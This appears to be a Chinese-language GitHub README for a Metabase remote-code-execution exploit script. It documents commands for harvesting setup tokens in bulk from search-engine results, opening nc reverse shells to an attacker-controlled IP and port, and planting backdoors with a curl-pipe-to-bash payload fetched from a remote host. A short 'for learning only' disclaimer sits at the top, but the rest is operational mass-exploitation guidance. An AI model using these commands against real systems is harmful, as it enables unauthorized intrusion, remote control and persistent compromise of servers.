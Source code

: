 # metabase_exp
metabase rce
仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门

获取token
python3 metabase_exp.py poc -u xxx.com
批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段
python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json

尝试nc反弹
python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口
nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了
python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口

尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行
python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -p 你的payload

我遇到的问题：waf，不出网，无法后利用
太菜了写的不是很好啊哈哈

我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
